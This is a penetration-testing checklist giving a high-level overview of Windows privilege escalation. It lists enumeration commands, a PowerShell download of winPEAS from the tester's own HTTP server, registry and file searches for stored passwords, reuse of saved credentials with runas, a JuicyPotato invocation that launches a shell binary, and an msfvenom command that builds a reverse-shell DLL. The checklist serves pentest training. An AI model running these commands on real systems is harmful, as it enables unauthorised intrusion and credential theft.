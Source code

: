 ```yaml
---
Author(s): M-Nelly
Subject: Security
Topic: Privilege Escalation
DocType: Checklist
Comments: 
Description: High level overview of options for privilege escalation on Windows systems
tags:
  - pentesting
  - windows
---
```

## Introduction:
Privilege escalation is the process of pivoting vertically in a network to gain additional access or persistence in a network. Escalations usually happen as a result of misconfigurations causing user accounts to have limited admin rights. 
### Prerequisites:
Access to a system on the network you are attacking is required. 
## Instructions:
### Enumerating Privilege Escalation Vectors:
#### Automated - [[PEASS-NG]]:
If you have the ability to upload files and not have to worry about anti-virus, the PEASS script is a really easy way to check for privilege escalation vectors. 
>[!TIP]
>A precompiled binary for Windows can be found here: 
>https://github.com/carlospolop/PEASS-ng/releases

The easiest way to get the file on the target machine is to host it on your system using a [[Python]] HTTP server. In the folder that has your executable, run ` python -m http.server ` and pull it from the target machine using:
```PowerShell
iwr http://<YOUR IP>:8000/winpeas.exe -outfile winpeas.exe 
``` 
#### Manual - [[Windows Internals]]:
` systeminfo ` - Shows basic system information
` hostname ` - Shows system hostname
` net accounts ` - Shows local password policy
` arp -A ` - Shows hosts on the local network
` netstat -ano ` - Shows active connections and associated PID
` whoami /all ` - Shows user information, groups, and privileges 
- `SeImpersonatePrivilege` - Used in [[Potato Exploits]]
- `BUILTIN\Administrators` - Local admin group 
`cmdkey /list` - Shows stored credentials
- Use `runas /savecred /user:PC-Name\Username "command" ` to execute commands as other users if you have access to their stored credentials. 
` net use ` - Shows connected network shares
- Plaintext credentials
- Sensitive documents
- File based exploits
	- VB scripts in office files
` net users ` - Shows local users
` wmic qfe get Caption,Description,HotFixID,InstalledOn ` - Shows patches
` findstr /si string *.*` - Recursively search for files matching search string
- ` findstr /si password *.etc ` 
` reg query ` - Gets values associated with registry keys
- ` reg query HKLM /f password /t REG_SZ /s `
- ` reg query HKCU /f password /t REG_SZ /s `
` schtasks /query /fo list /v ` - List current scheduled tasks
` sc query state=all ` - Lists services and drivers
- Unquoted service paths in writable directories
` icacls /directory/ ` - List file permissions for files in search directory
- F - Full Access
- M - Modify
- W - Write
- I - Inherit
` Get-Clipboard ` - Show the contents of the current user's clipboard
### Exploiting Privilege Escalation Vulnerabilities:
#### Unquoted Service Path:
Service Path: ` C:\Program Files x86\Service Name\Service Executable.exe `
If ` \Service Name\ ` is a writable directory, and the service path being called by windows is not in quotes, we can place a malicious executable into that directory named ` Service.exe ` and Windows will execute that instead of executing ` Service Executable.exe `. 
This is useful if the service is being executed as a user that we want to pivot to and can grant us shell access as that user. 
#### Named Pipe Client Impersonation:
Named pipe vulnerabilities can be exploited using one of the potato executables or print spoofer depending on the version of Windows that the host is running. It might take a bit of research to find one that will work, but unpatched Windows 10 or lower and a user with ` SeImpersonatePrivilege ` should be a huge indicator that you should check for this exploit. 

In order to get it to work, you will need to get an exploit binary and a payload binary uploaded to the host. Once both are uploaded, call your shell with the exploit binary and you should get system access. Example:
`C:\temp\JuicyPotato.exe -t * -p C:\temp\shell.exe -l 443`
>[!NOTE]
>These exploits sometimes require multiple attempts to work. 
#### DLL Hijacking
DLL hijacking is a vulnerability similar to the unquoted service path vulnerability that takes advantage of the [Windows DLL Search Order](https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order) and an improper reference to the DLL within the application. If an application does not include an explicit path to the DLL it is calling, it will search for the DLL in these places:
1. DLL Redirect
2. Win32 API
3. SxS Manifest
4. Loaded Modules
5. Known System DLLs
6. Package Dependency Graph
7. Executable Folder
8. System32
9. System
10. Windows Folder
11. Current Folder
12. Directories in $PATH 
To find DLL hijacking vulnerabilities, look for applications or services running as SYSTEM with executable paths in writable directories. Note that the root directory is writable by default and new directories will inherit this property. Folder permissions should read ` _NT AUTHORITY\Authenticated Users:(I)(M)_ ` if you can modify the contents. 
- If this is the case, you can exploit by replacing a DLL in the application directory with a malicious one. 
- If an application is calling a DLL that does not exist, you can exploit by placing an appropriately named malicious DLL in a directory that is in the system $PATH.
- If you find an application calling a DLL and have access to a location that would precede the DLL location in the search order, you can exploit by placing an appropriately named DLL in that location.
Malicious DLLs can be created with [[MetaSploit]]'s `msfvenom` using the ` -f ` flag to specify the file type as DLL. Example:
```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=127.0.0.1 LPORT=1234 -f dll -o msf.dll 
```
### Troubleshooting:
Privilege escalation in general is more art than science. Very often you will be using new techniques that have not been fully explored or developed. If your research indicates that something should work but isn't producing the intended result, the best thing to do is spin up a lab that you know is vulnerable and analyze both sides. I recommend familiarizing with docker and building a home lab with a sample of vulnerable machines. 
### Best Practices & Insights:
When conducting a penetration test, the goal is to be minimally invasive. If you need to hollow out an executable or change how a program executes, it is probably best to clear that with the client before you do it. 
## Footnotes:
### References:
- [PEASS-ng](https://github.com/carlospolop/PEASS-ng) 
- [OSCP Windows PrivEsc](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)
- [HackTricks WIndows PrivEsc Checklist](https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation)
- [FuzzySecurity Windows PrivEsc](https://fuzzysecurity.com/tutorials/16.html)
- [Exploiting Weak Folder Permissions](http://www.greyhathacker.net/?p=738)
- [MSDocs DLL Search Order](https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order)
- [MSDocs SBS Assemblies](https://learn.microsoft.com/en-us/windows/win32/sbscs/about-side-by-side-assemblies-)
- [MSDocs DLL Redirection](https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-redirection)
- [MSDocs Windows API Sets](https://learn.microsoft.com/en-us/windows/win32/apiindex/windows-apisets)
- [HackTricks DLL Hijacking](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking)
- [JuggernautSec SEImpersonatePrivilege](https://juggernaut-sec.com/seimpersonateprivilege/)
